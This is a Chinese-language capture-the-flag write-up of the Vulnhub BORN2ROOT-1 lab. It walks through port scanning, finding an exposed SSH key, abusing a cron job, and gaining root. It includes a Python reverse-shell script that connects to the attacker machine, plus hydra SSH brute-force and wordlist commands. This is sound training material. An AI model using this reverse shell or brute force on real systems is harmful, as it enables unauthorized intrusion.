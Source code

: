 ```yaml
---

title: Vulnhub 197 BORN2ROOT-1

---
```


考点：id_rsa,hydra

靶机链接：<https://www.vulnhub.com/entry/born2root-1,197/>

## 环境配置

| 名称        | IP        |
| ----------- | --------- |
| Kali Linux  | 10.0.2.24 |
| BORN2ROOT-1 | 10.0.2.40 |

## 初步打点

### 端口扫描

```bash
$ export rip=10.0.2.40
$ sudo nmap -v -A -p- $rip
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey: 
|   1024 3d:6f:40:88:76:6a:1d:a1:fd:91:0f:dc:86:b7:81:13 (DSA)
|   2048 eb:29:c0:cb:eb:9a:0b:52:e7:9c:c4:a6:67:dc:33:e1 (RSA)
|   256 d4:02:99:b0:e7:7d:40:18:64:df:3b:28:5b:9e:f9:07 (ECDSA)
|_  256 e9:c4:0c:6d:4b:15:4a:58:4f:69:cd:df:13:76:32:4e (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 2 disallowed entries 
|_/wordpress-blog /files
|_http-title:  Secretsec Company 
|_http-server-header: Apache/2.4.10 (Debian)
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          42589/udp   status
|   100024  1          44269/udp6  status
|   100024  1          59185/tcp6  status
|_  100024  1          60456/tcp   status
60456/tcp open  status  1 (RPC #100024)

```

### WEB测试

#### 端口80

![1](https://static.iihack.com/vulnhub/197/1.jpg)

获得用户名三个 `martin hadi jimmy`

访问robots.txt获得两个目录

![2](https://static.iihack.com/vulnhub/197/2.jpg)

两个目录都无有用信息

```bash
$ gobuster dir --url http://10.0.2.40 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -x .php 
```

![3](https://static.iihack.com/vulnhub/197/3.jpg)

访问`icons`目录发现目录可访问

![4](https://static.iihack.com/vulnhub/197/4.jpg)

发现ssh登录认证密钥

![5](https://static.iihack.com/vulnhub/197/5.jpg)

## 获得权限

### martin

![6](https://static.iihack.com/vulnhub/197/6.jpg)

这就尴尬了，查一下这个异常报错是因为DSA密钥的问题，可以[修改配置文件](https://www.cnblogs.com/fly2wind/p/15640719.html) 或者ssh登录时加参数 `-o PubkeyAcceptedKeyTypes=+ssh-rsa`

![7](https://static.iihack.com/vulnhub/197/7.jpg)

咋的，还得输入密码，目测是`.bashrc` 加了登录启动脚本，回车一下绕过了，还是看看这个脚本

![8](https://static.iihack.com/vulnhub/197/8.jpg)

下载文件发现`wget`和`curl`都不能用

还是修改`.ssh/config`添加`PubkeyAcceptedKeyTypes +ssh-rsa`

![9](https://static.iihack.com/vulnhub/197/9.jpg)

通过sftp上传`linpeas.sh`和`pspy`

### jinmy

通过`linpeas.sh`发现

![10](https://static.iihack.com/vulnhub/197/10.jpg)

`jimmy`权限每隔五分钟运行`/tmp/sekurity.py`去/tmp目录发现文件不存在，那就新建文件反弹shell了

新建文件`/tmp/sekurity.py` 内容为

```python
import sys, socket, subprocess, os
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('10.0.2.24', 444))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
p = subprocess.call(["/bin/sh", "-i"])
```

过了几分钟收到反弹shell

![11](https://static.iihack.com/vulnhub/197/11.jpg)

### hadi

```
$ cewl -w pass http://10.0.2.40/

```

看了看，把`martin hadi jimmy`也加到pass里

使用john生成增强字典

```
$ john --wordlist=pass --rules=best64 --stdout >pass2
```

使用hydra爆破用户`hadi`的密码

```
$ hydra -l hadi   -P pass2  -f 10.0.2.40 ssh
```

![12](https://static.iihack.com/vulnhub/197/12.jpg)

## 提权

登录上去发现文件`.gdb_history`应该是直接可以获得root权限

![13](https://static.iihack.com/vulnhub/197/13.jpg)